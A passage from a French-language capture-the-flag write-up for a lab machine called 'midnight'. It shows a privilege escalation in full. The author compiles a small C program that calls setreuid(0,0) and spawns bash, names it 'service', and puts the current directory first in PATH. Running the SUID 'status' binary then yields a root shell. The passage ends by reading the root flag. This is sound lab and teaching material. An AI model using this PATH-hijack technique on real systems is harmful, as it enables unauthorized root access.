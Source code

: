 Je vais donc compiler sous le nom `service` un programme me donnant un shell root et modifier le `PATH` pour que `status` l'exécute à la place du vrai `service`.

```console
jose@midnight:~$ vi gotroot.c
jose@midnight:~$ cat gotroot.c 
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        setregid(0, 0);
        system("/usr/bin/bash");
        return 0;
}
jose@midnight:~$ gcc -o service gotroot.c 
jose@midnight:~$ export PATH=.:$PATH
jose@midnight:~$ status
root@midnight:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)
root@midnight:~# cd /root
root@midnight:/root# ls
root.txt  status  status.c
root@midnight:/root# cat root.txt
          ___   ____
        /' --;^/ ,-_\     \ | /
       / / --o\ o-\ \\   --(_)--
      /-/-/|o|-|\-\\|\\   / | \
       '`  ` |-|   `` '
             |-|
             |-|O
             |-(\,__
          ...|-|\--,\_....
      ,;;;;;;;;;;;;;;;;;;;;;;;;,.
~,;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;,~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;,  ______   ---------   _____     ------

db2def9d4ddcb83902b884de39d426e6

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```


